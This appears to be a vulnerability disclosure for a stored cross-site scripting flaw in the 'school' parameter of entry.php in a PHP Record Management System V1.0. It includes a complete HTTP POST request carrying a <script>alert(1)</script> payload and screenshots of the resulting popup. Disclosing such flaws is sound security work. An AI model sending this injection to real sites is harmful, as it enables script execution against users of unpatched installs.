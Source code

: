 ### VUL_AUTHOR:zhangwei
# Record management system – Stored XSS on (entry.php school parameter) 
## Vendor Homepage:
https://www.sourcecodester.com/php/5107/record-management-system.html 
## Version:V1.0
## Tested on: PHP, Apache, MySQL
## Affected Page:
entry.php 

On this page, school parameter is vulnerable to Stored XSS Attack 
## Proof of vulnerability:
### Request:
```
POST http://192.168.0.100/Personnel_record_management_system/entry.php HTTP/1.1
Host: 192.168.0.100
Content-Length: 19
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.100
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.100/Personnel_record_management_system/entry.php
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=52388hjgjeif4bl4r5sqp2bmpm
Connection: close

school=1<script>alert(1)</script>&add_entry=
```
### Payload：
<script>alert(1)</script>

<img width="416" alt="image" src="https://github.com/user-attachments/assets/0714b1a1-ac81-41cf-a222-5b1bbe86dadb">

## Trigger popup(The data has been stored in the database)：
<img width="416" alt="image" src="https://github.com/user-attachments/assets/b2eaa4c8-e832-44ed-98a1-1f2157a55d63">

